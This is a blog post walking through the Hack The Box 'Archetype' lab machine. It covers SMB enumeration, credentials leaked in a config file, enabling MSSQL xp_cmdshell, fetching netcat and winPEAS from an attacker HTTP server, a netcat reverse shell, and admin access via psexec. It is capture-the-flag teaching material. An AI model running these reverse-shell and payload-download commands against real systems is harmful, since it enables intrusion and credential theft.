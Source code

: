 ```yaml
---
layout: post
title: 'HTB | Archetype'
date: 2022-02-28
permalink: /htb/archetype/
---
```



# [](#header-4)Enumeration

The nmap will show us:
{% highlight plain %}
$ nmap -sV 10.129.221.7 -oN nmap 
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-28 11:45 EST
Nmap scan report for 10.129.221.7
Host is up (0.049s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT     STATE SERVICE      VERSION
135/tcp  open  msrpc        Microsoft Windows RPC
139/tcp  open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
1433/tcp open  ms-sql-s     Microsoft SQL Server 2017 14.00.1000
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.15 seconds
{% endhighlight %}

We will try to see which folders are share.
{% highlight plain %}
$ smbclient -L //10.129.221.7/
        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        backups         Disk      
        C$              Disk      Default share
        IPC$            IPC       Remote IPC

{% endhighlight %}

And then try to connect to **backups**:
{% highlight plain %}
$ smbclient //10.129.221.7/backups/
smb: \> ls
smb: \> get prod.dtsConfig
smb: \> exit
$ cat prod.dtsConfig  
{% endhighlight %}

There we can see:
{% highlight plain %}
Password=M3g4c0rp123;User ID=ARCHETYPE\sql_svc
{% endhighlight %}



Now we can try to login with the scripts **mssqlclient.py**.
We will use the credentials provides by the **prod.dtsConfig** file.
{% highlight plain %}
$ sudo python3 mssqlclient.py ARCHETYPE/sql_svc@10.129.221.7 -windows-auth
{% endhighlight %}

# [](#header-4)Foothold

Now we are in the SQL server. With the command **xp_cmdshell** we can try to execute the shell, but we will recieve the following error:
{% highlight plain %}
[-] ERROR(ARCHETYPE): Line 1: SQL Server blocked access to procedure 'sys.xp_cmdshell'
{% endhighlight %}

Now we need to activate xp_cmdshell. With the following command we can see all the config aviable.
{% highlight plain %}
SQL> sp_configure
{% endhighlight %}

We need to activate the advanced options:
{% highlight plain %}
SQL> EXECUTE sp_configure 'show advanced options', 1;
SQL> RECONFIGURE;
{% endhighlight %}

And then we can activate the shell:
{% highlight plain %}
SQL> EXECUTE sp_configure 'xp_cmdshell', 1;
SQL> RECONFIGURE;
{% endhighlight %}

Now we can get the **user flag**:
{% highlight plain %}
SQL> xp_cmdshell type C:\Users\sql_svc\Desktop\user.txt
{% endhighlight %}

We will make a reverse shell.
First we will start a nc in the port 443.
{% highlight plain %}
$ sudo nc -lvnp 443
{% endhighlight %}

Now we will create a http server in the same folder where we have the **nc64.exe** file.
{% highlight plain %}
$ sudo python3 -m http.server 80 
{% endhighlight %}

We need to download that file in the server. Because we don't have root access we will use the normal user.
{% highlight plain %}
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://10.10.14.88/nc64.exe -outfile nc64.exe"
{% endhighlight %}

The **http.server** will receive the following line:
{% highlight plain %}
10.129.221.7 - - [28/Feb/2022 12:51:53] "GET /nc64.exe HTTP/1.1" 200 -
{% endhighlight %}

Now we execute the command and send the cmd to the 443 port (where we are listening):
{% highlight plain %}
SQL> xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; .\nc64.exe -e cmd.exe 10.10.14.88 443"
{% endhighlight %}

# [](#header-4)Privilege Escalation

Now we will need to use **winPEAS** to do the privilege escalation. We will change the prompt to powershell, and download the file.
{% highlight plain %}
C:\Users\sql_svc\Downloads>powershell
PS C:\Users\sql_svc\Downloads> wget http://10.10.14.88/winPEASx64.exe -outfile winPEASx64.exe
{% endhighlight %}

In the http.server we can see that works:
{% highlight plain %}
C:\Users\sql_svc\Downloads>powershell
10.129.221.7 - - [28/Feb/2022 13:01:29] "GET /winPEASx64.exe HTTP/1.1" 200 -
{% endhighlight %}

No we will execute the script:
{% highlight plain %}
PS C:\Users\sql_svc\Downloads> .\winPEASx64.exe
{% endhighlight %}

We can check the shell history for credentials (like **.bash_history**).
{% highlight plain %}
PS C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine> type ConsoleHost_history.txt
        net.exe use T: \\Archetype\backups /user:administrator MEGACORP_4dm1n!!
{% endhighlight %}

With the password we have now we will use another script from impacket, **psexec.py**:
{% highlight plain %}
$ python3 psexec.py administrator@10.129.221.7
{% endhighlight %}

We can use the password from before and now we are in the Administrator user:
{% highlight plain %}
C:\Windows\system32> type C:\Users\Administrator\Desktop\root.txt
{% endhighlight %}
